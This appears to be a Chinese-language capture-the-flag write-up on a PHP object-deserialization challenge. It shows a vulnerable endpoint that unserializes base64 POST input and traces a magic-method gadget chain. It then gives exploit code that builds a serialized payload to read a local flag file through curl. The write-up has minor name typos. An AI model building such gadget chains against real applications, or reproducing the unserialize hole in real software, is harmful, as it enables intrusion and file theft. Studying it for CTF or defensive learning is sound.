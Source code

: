 ```php=
    public function __destruct()
    {
        if (preg_match('pwned', $this->url))
        {
            system('echo `date` >> log.txt');
        };
    }
}

if (isset($_POST['pop'])){
    unserialize(base64_decode($_POST['pop']));
}
?>
```
首先要理解php的[Magic Method](https://docs.phplang.net/manual/en/language.oop5.magic.php)
- `__wakeup()` \: object被deserialization時自動調用
- `__destruct()` \: object的lifecycle結束(被Destruction)自動調用
- `__get()` \: 訪問未定義時自動調用

然後我們會發現:

php腳本結束時，會自動調用`TEST::__destruct()`

裡面的`grep_match('pwned', $this->url)`第二個參數應該是`string`，但`$this->url`是一個object

這時候就會自動觸發`MEOW::__toString()`，裡面又訪問了`$this->id->r3a1_name`

但`r3al_name`沒被定義，這時候觸發`WHALE::__get()`(`__get(r3al_name)`)

然後get裡面執行了curl請求

payload目標:`__get()`請求內的`curl(r3al_name)`改為`curl(file:///flag)`


撰寫exploit:
```php=
<?php
class WHALE{
    public function __construct($name, $report_uri)
    {
        $this->name = $name;
        $this->report_uri = $report_uri;
    }
}

class MEOW{
    public function __construct($cat_struct)
    {
        $this->id = $cat_struct;
    }
}

class TEST{
    public function __construct($note, $url)
    {
        $this->note = $note;
        $this->url = $url;
    }
} 
$whale = new WHALE('abc', 'file:///flag');
$meow = new MEOW($whale);
$test = new TEST('test', $meow);

$serialized = serialize($test);
$payload = base64_encode($serialized);
echo $payload;
?>
```